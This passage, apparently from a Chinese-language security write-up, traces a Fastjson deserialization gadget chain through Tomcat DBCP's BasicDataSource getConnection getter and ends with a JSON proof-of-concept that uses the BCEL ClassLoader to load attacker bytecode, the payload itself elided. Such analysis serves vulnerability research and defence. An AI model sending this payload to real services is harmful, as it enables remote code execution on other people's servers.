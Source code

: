 那接下来就是找一下怎么调用`createConnectionFactory()`方法
![image-20221229123356517](images/image-20221229123356517.png)

可以看到在`createDataSource()`方法中调用了`createConnectionFactory()`，接下来找哪里调用了`createDataSource()`方法
![image-20221229123506403](images/image-20221229123506403.png)

在`getConnection()`方法中调用了`createDataSource()`方法，而`getConnection()`是一个 getter 方法，是我们要寻找的最终目标，接下来就是调用`com.sun.org.apache.bcel.internal.util.ClassLoader`类加载器加载字节码进行利用，即构造如下的 POC：
```json
{
    "@type": "org.apache.tomcat.dbcp.dbcp.BasicDataSource", 
    "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    }, 
    "driverClassName": "$$BCEL$$......"
}
```
